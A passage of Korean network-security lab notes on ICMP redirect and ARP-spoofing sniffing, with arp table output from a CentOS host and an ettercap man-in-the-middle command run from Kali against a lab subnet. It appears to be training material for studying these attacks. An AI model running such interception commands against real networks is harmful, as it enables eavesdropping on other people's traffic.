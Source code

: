 ```

Connection closed by foreign host.
```



### ICMP Spoofing (ICMP Redirect)

#### ICMP Redirect Sniffing (40p)



###### 칼리

와이어샤크 실행하고

###### CentOS

[root@Linux-11 바탕화면]# arp -v

```
Address                  HWtype  HWaddress           Flags Mask            Iface
172.16.10.10             ether   00:04:56:2f:d6:56   C                     eth0
172.16.10.254            ether   cc:01:10:a8:00:00   C                     eth0
172.16.10.30             ether   00:04:56:2f:d6:56   C                     eth0
Entries: 3	Skipped: 0	Found: 3
```

[root@Linux-11 바탕화면]# arp -s 172.16.10.254 cc:01:10:a8:00:00
[root@Linux-11 바탕화면]# arp -v

```
Address                  HWtype  HWaddress           Flags Mask            Iface
172.16.10.10             ether   00:04:56:2f:d6:56   C                     eth0
172.16.10.254            ether   cc:01:10:a8:00:00   CM                    eth0
172.16.10.30             ether   00:04:56:2f:d6:56   C                     eth0
Entries: 3	Skipped: 0	Found: 3
```



###### 칼리

root@kali-04:~# ettercap -T -i eth0 -M arp:remote //172.16.10.10// //172.16.10.254//

```
ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
  eth0 -> 00:04:56:2F:D6:56
          172.16.10.30/255.255.255.0
          fe80::204:56ff:fe2f:d656/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
  .
  .
  .
```

